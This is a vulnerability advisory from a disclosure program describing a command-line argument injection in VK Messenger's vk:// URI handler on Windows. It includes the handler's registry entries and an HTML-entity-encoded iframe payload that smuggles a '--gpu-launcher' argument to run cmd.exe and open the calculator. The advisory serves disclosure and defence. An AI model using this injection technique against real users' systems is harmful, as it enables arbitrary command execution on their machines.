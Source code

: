 **Vulnerability Summary**<br>
The following describes a vulnerability in VK Messenger that is triggered via the exploitation of improperly handled URI.
VK (VKontakte; [..], meaning InContact) is “an online social media and social networking service. It is available in several languages. VK allows users to message each other publicly or privately, to create groups, public pages and events, share and tag images, audio and video, and to play browser-based games. It is based in Saint Petersburg, Russia”.

**Credit**<br>
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected Version**<br>
VK Messenger version 3.1.0.143

**Vendor Response**<br>
The vendor responded that the problem no longer affects the latest version – but didn’t provide any information on when it was fixed and whether it was fixed due to someone else reporting this vulnerability.

**Vulnerability Details**<br>
The VK Messenger, which is part of the VK package, registers a uri handler on Windows in the following way:

```
[HKEY_CLASSES_ROOT\vk]
"URL Protocol"=""
@="URL:vk"
[HKEY_CLASSES_ROOT\vk\shell]
[HKEY_CLASSES_ROOT\vk\shell\open]
[HKEY_CLASSES_ROOT\vk\shell\open\command]
@="\"C:\\Program Files\\VK\\vk.exe\" \"%1\""
```

When the browser processes the `vk://` uri handler it is possible to inject arbitrary command line parameters for vk.exe, since the application does not properly parse them. It is possible to inject the ‘–gpu-launcher=’ parameter to execute arbitrary commands. It is also possible to inject the ‘–browser-subprocess-path=’ parameter to execute arbitrary commands. Network share paths are allowed, too.<br>
Example of attack encoded in HTML entity:
`<iframe src='vk:?"&#32;&#45;&#45;&#103;&#112;&#117;&#45;&#108;&#97;&#117;&#110;&#99;&#104;&#101;&#114;&#61;&#34;&#99;&#109;&#100;&#46;&#101;&#120;&#101;&#32;&#47;&#99;&#32;&#115;&#116;&#97;&#114;&#116;&#32;&#99;&#97;&#108;&#99;&#34;&#32;&#45;&#45;'></iframe>`

When opening a malicious page, a notification box asks the user to open VK.
NOTE: The application is not in the auto-startup items, and the issue will work if the application is not already started.
